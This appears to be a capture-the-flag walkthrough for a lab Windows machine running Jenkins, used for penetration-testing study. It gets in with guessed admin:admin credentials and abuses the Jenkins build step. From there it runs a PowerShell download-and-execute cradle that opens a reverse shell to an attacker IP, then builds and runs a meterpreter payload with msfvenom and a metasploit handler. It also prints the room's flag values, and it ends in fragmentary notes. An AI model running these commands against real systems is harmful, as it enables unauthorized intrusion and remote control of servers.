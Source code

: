 # Alfred

## Concepts
- nmap
- gobuster
- Python web server
- Powershell

## Initial Enumeration
```
mkdir Alfred
cd Alfred
mkdir scans
export IP=10.10.226.95
export LHOST=10.6.73.147
nmap -sC -sV -Pn $IP -oN scans/normal
gobuster dir -u http://$IP:8080 -w /opt/tools/directory-list-2.3-medium.txt | tee scans/gobuster.log
```

### Alfred admin login
**http://10.10.226.95:8080** <br>
Crecentials
> **admin:admin**#Just guessed, terrible password

### Logic and attack
Jenkins is a CI and CD automation suite. In this case we have version 2.190.1 and we were lucky to have guessed the login credentials so easily, but even if that wasn't the case we could used other methods (like brute force) to log in.

Once in, explore around and see if there is anything interesting.

Because we are **admin** we can have access to everything, including creating New Items. When we create a new item, optionally we can execute a batch command in the server hosting the jenkins website after we have build our new item. Try any powershell valid command and see if you can check the output

Ok, we do get an output without errors, we have code execution, rest should be easy:
1 - Download any tool you want to get persistence and a better shell, this tool can (and should) already be in our attacking machine as one of our tools.

2 - The tool is probably going to call back to us, so we need to have a listener to catch the reverse shell (use meterpreter, pwncat, netcat etc)

3 - Win! You should have a shell with elevated priviledges, we can do whatever we want now. Get the flags

Get the exploit<br>
`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

Serve it in a local web server<br>
`python3 -m http.server 8080`


In "http://10.10.226.95:8080/job/project/configure" at the bottom of the page there is a space where we have command execution, we can verify this by going to "http://10.10.226.95:8080/job/project/11/console" to verify the output of our commands
<screenshot1>
<screenshot2>

There we insert this command
On web:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.73.147:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.73.147 -Port 4444
```




Also create a listener for the port we the reverse shell is goint to call bakck<br>
`nc -lnvp 4444`

Go to the website and click the **"Build Now"** button and receive the reverse shield



On the powershell console, use the Get-ChildItem cmdlet with the -Recurse switch to find the flag<br>
```
Get-ChildItem -Filter *.txt -Recurse
cat c:\users\bruce\Desktop\user.txt
```
**79007a09481963edf2e1321abd9ae2a0**<br>

Lets escalate priviledges, first, create the meterpreter reverse shell payload<br>
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.73.147 LPORT=5555 -f exe -o meterpreter.exe
```

Serve it in a local web server<br>
`python3 -m http.server 8081`

Get it from the current Powershell session<br>
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.73.147:8081/meterpreter.exe','meterpreter.exe')"
```


Set up the listener withing metasploit<br>
```
use multi/handler
set PAYLOAD /windows/meterpreter/reverse_tcp
set LHOST 10.6.73.147
set LPORT 5555
run 
```

Execute the payload
```
Start-Process meterpreter.exe
```
get elevated

get persistence
9999
SetDebugPrivilege


type C:\Windows\System32\config\root.txt

